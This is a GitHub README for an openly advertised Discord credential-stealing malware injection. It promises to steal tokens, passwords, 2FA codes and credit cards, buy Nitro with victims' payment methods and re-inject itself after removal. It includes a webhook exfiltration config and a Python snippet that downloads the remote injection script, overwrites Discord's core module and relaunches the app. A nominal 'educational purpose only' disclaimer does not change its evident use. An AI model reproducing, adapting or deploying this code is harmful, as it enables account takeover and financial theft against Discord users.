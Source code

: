 <h1 align="center">
  Discord Injection 💉
</h1>

<h2 align="center">
  Steal all critical info from victims!
</h2>

<p align="center">
  Discord Injection is a simple .js script that you can use for your own malware to inject into discord which comes with many features!
</p>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord%20atom.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Injection&metric=ncloc" </a>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Injection?color=7F9DE0&label=Stars&style=flat-square" </a>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Injection?color=7F9DE0&label=Forks&style=flat-square" </a>
</p>

<h4 align="center">
  <a href="https://cheataway.com">🌌・Discord</a>
  <a href="https://github.com/Rdimo/Discord-Injection#configure-discord-injection">💉・Setting up the injection</a>
  <a href="https://github.com/Rdimo/Discord-Injection#license">💻・License</a>
  <a href="https://github.com/Rdimo/Discord-Injection#changelog">📜・ChangeLog</a>
</h4>

<h2 align="center">
  Discord-Injection was made by

Love ❌ code ✅
</h2>

---

## :fire: Features

✔ Customizable \
✔ Obfuscated (not advanced but the best it can go cuz of string replacement) \
✔ If Injection got removed it injects again! \
✔ Works on both Windows and Darwin! \
✔ Auto buy nitro! (toggleable) \
✔ Pings on info stolen! (toggleable) \
✔ Discord 2FA Codes for accounts with 2FA enabled. \
✔ Disables login thru QR code! \
✔ Grabs Token, Nitro status, Billing Status + more! \
✔ Grabs Email & Password for their account. (updates if they change it) \
✔ Grabs whole credit card (if they enter one while injection is in) \
✔ Notifies when paypal account has been added!

---

## 🚀・Configure Discord Injection!

You'll need [Git](https://git-scm.com) to start off!

```sh-session
git@2.17.1 or higher
```

### 1. From your command line, clone and configure discord-injection:

```bash
# Clone this repository
$ git clone https://github.com/rdimo/Discord-injection.git

```

Copy the raw url of the [injection](./injection.js) and then paste it in your code

[forking](https://github.com/Rdimo/Discord-injection/fork) this repo is also a viable way but make sure to go into the code and change the config to your preferences! ⇣⇣⇣

```javascript
const config = {
    auto_buy_nitro: true, //automatically buys nitro when the victim adds credit card or paypal account or tries to buy nitro themselves
    ping_on_run: false, //sends whatever value you have in ping_val when you get a run/login
    ping_val: '@everyone', //change to @here or <@ID> to ping specific user if you want, will only send if ping_on_run is true
    embed_name: 'Discord Injection', //name of the webhook thats gonna send the info
    embed_icon: 'https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord atom.png'.replace(/ /g,'%20'), //icon for the webhook thats gonna send the info
    embed_color: 8363488, //color for the embed, needs to be hexadecimal (just copy a hex and then use https://www.binaryhexconverter.com/hex-to-decimal-converter to convert it)
    webhook: '%WEBHOOK%', //your discord webhook there obviously
    injection_url: 'https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js', //injection url for when it reinjects

    ... //rest of the config you should NOT touch
};
```

> Don't quite understand how to set it up? [Click me!](https://github.com/Rdimo/Discord-Injection#want-to-use-it-but-dont-know-shit-about-coding)

## 🎈・Code example

Example of how you can implement this injection into your own malware

```py
import os
import re
import requests
webhook = 'https://discord.com/apwebhooks/123456789/abcdefghijklmnopqrstuvwxyz'

def inject():
    for _dir in os.listdir(os.getenv('localappdata')):
        if 'discord' in _dir.lower():
            for __dir in os.listdir(os.path.abspath(os.getenv('localappdata')+os.sep+_dir)):
                if re.match(r'app-(\d*\.\d*)*', __dir):
                    abspath = os.path.abspath(os.getenv('localappdata')+os.sep+_dir+os.sep+__dir)
                    f = requests.get("https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js").text.replace("%WEBHOOK%", webhook)
                    with open(abspath+'\\modules\\discord_desktop_core-2\\discord_desktop_core\\index.js', 'w', encoding="utf-8") as indexFile:
                        indexFile.write(f)
                    os.startfile(abspath+os.sep+_dir+'.exe')

if __name__ == "__main__":
    inject()
```

## 👴・Want to use it but don't know shit about coding?

No worries, [Hazard-Token-Grabber-V2](https://github.com/Rdimo/Hazard-Token-Grabber-V2) is a stealer that uses this injection + steals more!

## 🤝・Contributing

Any ideas on how to improve the injection? Or just think you got something you want to see being added? [Open a new issue](https://github.com/rdimo/Discord-injection/issues)!

Found a bug? please please please [Open a new issue](https://github.com/rdimo/Discord-injection/issues) and tell me about it so I can fix it asap

## 🎉・Upcoming/Todo

- Grab ip, name etc...
- Fix bugs
- More settings

## :seedling:・Inspiration/Credits

Discord-Injection is heavily inspired by [stanleys](https://github.com/Stanley-GF) injection but has been upgraded quite alot since \
A few snippets are from his injection so huge cred to stan

- [his injection](https://github.com/Stanley-GF/Arizona/blob/main/src/injection/injection-clean.js)

## 📄・License

This project is licensed under the GNU General Public License v3.0 License - see the [LICENSE.md](./LICENSE) file for details

・Educational purpose only and all your consequences caused by you actions is your responsibility

・Selling this **Free** injection is forbidden

・If you make a copy of this/or fork it, it **must** be open-source and have credits linking to this repo

## 💭・ChangeLog

```diff
v0.0.6 ⋮ 2022-04-13
+ Discriminator doesn't get mixed up with the ID

v0.0.5 ⋮ 2022-04-08
+ Formatting
+ bug fixes

v0.0.4 ⋮ 2022-03-31
+ Cleanup

v0.0.3 ⋮ 2022-03-31
+ Fixed Typo

v0.0.2 ⋮ 2022-03-30
+ Added new seperate function that sends out when a nitro code has been purchased
+ Fixed 2fa code grabber
+ Fixed auto nitro buyer

v0.0.1 ⋮ 2022-03-28
+ Added BetterDiscord support
+ Added dead code into obfuscation to protect even more
- Re-added status code checker since I Accidently removed it
```